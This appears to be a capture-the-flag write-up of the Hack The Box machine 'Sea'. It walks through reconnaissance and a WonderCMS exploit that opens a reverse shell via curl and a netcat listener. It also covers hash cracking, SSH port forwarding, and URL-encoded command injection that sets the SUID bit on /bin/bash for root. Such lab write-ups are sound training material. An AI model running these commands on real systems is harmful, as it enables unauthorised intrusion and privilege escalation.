 ```yaml
---
layout: post
title: 'Sea Walkthrough: Conquering Hack The Box Season 6 "Sea htb"'
date: 14-08-2024
categories: [HackTheBox]
tag: season 6
---
```

# Sea Walkthrough: Conquering Hack The Box Season 6 "Sea Machine"

![](/img/1.png)

## Introduction  

 __Hack The Box Season 6, "Sea Machine," is a thrilling cybersecurity competition with a nautical theme, offering challenges that simulate real-world hacking scenarios. Participants test their skills in areas like web exploitation, cryptography, and network security. It's an exciting opportunity for both beginners and experts to sharpen their hacking abilities in a competitive, engaging environment.__



## Reconnaissance

 Network Scanning: as always, we will do nmap scan to know what is opened ports and it’s services in this machine.as always, we will do nmap scan to know what is opened ports and it’s services in this machine.

 ```
    -─(hu1k0㉿kali)-[~/Desktop/HTB]
    └─$ sh nmap.sh 10.10.11.28
    Performing initial scan on 10.10.11.28...
    Open ports: 22,80
    Performing detailed scan on 10.10.11.28...
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 e3:54:e0:72:20:3c:01:42:93:d1:66:9d:90:0c:ab:e8 (RSA)
    |   256 f3:24:4b:08:aa:51:9d:56:15:3d:67:56:74:7c:20:38 (ECDSA)
    |_  256 30:b1:05:c6:41:50:ff:22:a3:7f:41:06:0e:67:fd:50 (ED25519)
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    |_http-title: Sea - Home
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 ```
 then I browsed the site but didn't find anything interesting.
 
 ![](/img/vv1.png)
 ![](/img/vv2.png)
 

## directory discovery

 - __for directory discovery i use [ffuf](https://www.kali.org/tools/ffuf/) tool.__

 ```
  ┌──(hu1k0㉿kali)-[~/Desktop/HTB/reports] 
  └─$ ffuf -u http://sea.htb//FUZZ -w /usr/share/wordlists/dirb/common.txt  -mc 200,301,302,401,402,403 

 ```
 ![fufu1](/img/fffffu.png)
 
 - __first i go for '200' directories {contact.php}__
 - __i try some xss and sqli but no response__
  
  ![](/img/contact.png)

 - __then i tried all '301' directories but all give me Forbidden.__

  * messages , data , plugins , themes ...

 ![](/img/for.png)

 * then i back to http://sea.htb/ and press 'ctrl+u' to view-source:
  i notice this pass "http://10.10.11.28/themes/bike/css/style.css" which $bike$ is unique so i back and try to see what under this directory "/themes/bike/" 
 ```
  ┌──(hu1k0㉿kali)-[~/Desktop/HTB/reports]
  └─$ ffuf -u http://sea.htb/themes/bike/FUZZ -w /usr/share/wordlists/dirb/common.txt  -mc 200,301,302,401,402,403 -e .txt,.md,.php 
 ```
 ![](/img/rrrrr.png)

 - i go for '200' status

  README.md , version , summary , LICENSE..

 ![](/img/readme.png) 

 ![](/img/version.png)

## exploit

 - __so i go and search about it__  [Link.](https://gist.github.com/prodigiousMind/fc69a79629c4ba9ee88a7ad526043413) 

 ![](/img/exploit.png)

 - Usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252

 ![](/img/exlll.png)
 
 __We can send the link by [Contact](http://sea.htb/contact.php) form to the admin__

 ![](/img/sewee.png)
 
 - now after reading the exploit script we will find it create a shell file in this pass {/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port}

 - so we will send a request by [Curl](https://curl.se/docs/tooldocs.html)

 > curl 'http://sea.htb/themes/revshell-main/rev.php?lhost=10.10.16.65&lport=9999'

 ![](/img/curl.png)
 
 > nc -nvlp 9999

 yup and we get the shell 

 ![](/img/shell.png) 
 
 now i will try to find any data to help me to get ``amay`` access
 
 ![](/img/db1.png)
 
 > cat database.js 

 ![](/img/333.png)

 * i found hash don't forget to remove a backslash \

 then i will use [johntheripper](https://www.kali.org/tools/john/) to crack this hash

 > john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

 - __now i have ```user``` and ```password``` i will to connect to ```ssh```__

 > ssh amay@10.10.11.28

 ![](/img/user.png)

## Privilege Escalation 

 - i download [linpeas.sh](https://github.com/XDev05/PEASS-ng/blob/master/linPEAS/linpeas.sh) to scan this machine 

 ![](/img/linpeas.png)

 > chmod +x linpeas.sh
 > ./linpeas.h

 ![](/img/biong.png)

 - __we have something open in localhost in this port so to access that there is a technique called Port Forwarding. It basically takes a user’s port and redirect it’s traffic to our port. To do that we have to run the following command.__

 > ssh -L 8888:10.10.16.6:8080 amay@10.10.16.6

 __and open in my browser ```127.0.0.1:8888``` and access with same ssh data..__

 ![](/img/yyyy.png)

 i will try command injection. add simicolon after [log_file=%2Fvar%2Flog%2Fapache2%2Faccess.log;]  then encode url the comman "touch /home/amay/hulk.hack" =>> "%74%6f%75%63%68%20%2f%68%6f%6d%65%2f%61%6d%61%79%2f%68%75%6c%6b%2e%68%61%63%6b" 

 ![](/img/sert.png)

 ![](/img/tert.png)

 - __and it's WORK !!__
 
 - then i try this command 
 ```"chmod u+s /bin/bash" =>> "%63%68%6d%6f%64%20%20%75%2b%73%20%20%2f%62%69%6e%2f%62%61%73%68"```

 ![](/img/q33.png)

 * then go to ssh connection and type.
 > /bin/bash -p 

 ![](/img/root.png) .